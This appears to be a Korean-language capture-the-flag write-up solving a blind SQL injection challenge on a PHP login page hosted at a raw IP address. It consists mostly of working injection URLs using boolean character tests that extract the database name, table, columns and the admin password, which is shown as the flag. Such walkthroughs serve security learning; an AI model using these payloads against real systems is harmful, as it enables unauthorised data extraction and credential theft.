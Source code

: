 # Blind SQL Injection

![simpleSQLi](simpleSQLi.png)

GET 방식으로 id와 password를 받는다.

if (id와 password 둘 다 정보가 들어있다면)   
sql문 $id와 $password자리에 GET방식으로 받은 정보를 넣고   
sql에 입력해보는데,    

id 값이 'admin'이라면    
admin check라는 문구를 출력한다.


--> admin check가 뜬다면    
id : admin 인 상태에서 sql문이 잘 작동된 것.


### 쿼리가 잘 작동하는지 테스트

```http://13.209.81.224:6060/index.php?id=admin' union select database()-- -&&password=admin```
![1](1.png)


```http://13.209.81.224:6060/index.php?id=admin' AND (ascii('t')>0) -- &password=123```   
admin check

```http://13.209.81.224:6060/index.php?id=admin' AND (ascii(substring('test',1,1))>0) -- &password=123```   
admin check

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),1,1))>0) -- &password=123```   
admin check

---
### db 이름 알아보기   
```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),1,1))=112) -- &password=123```   
p

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),2,1))=114) -- &password=123```   
r

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),3,1))=111) -- &password=123```   
o

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),4,1))=98) -- &password=123```   
b

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),5,1))=49) -- &password=123```   
1

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),6,1))>0) -- &password=123```   
없음

DB name : **prob1**

---
### 테이블 확인


```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),1,1))>0) -- &password=123```   
admin check

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),1,1))=117) -- &password=123```   
u

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),2,1))=115) -- &password=123```   
s

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),3,1))=101) -- &password=123```   
e

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),4,1))=114) -- &password=123```   
r

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),5,1))=115) -- &password=123```   
s

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),6,1))>0) -- &password=123```   
없음


table name : **users**


---
### column 구하기


http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),1,1))=110) -- &password=123   
n

http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),2,1))=117) -- &password=123   
u

http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),3,1))=109) -- &password=123   
m

http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),4,1))>0) -- &password=123   
없음


1번 column name : num

2번부터는 파이썬 코드를 돌려서 확인   
2번 column name : id   
3번 column name : pass

---
### 내부 정보

id : admin   
pass : cvfbhfynlrjoi33

flag{cvfbhfynlrjoi33}   
완료.

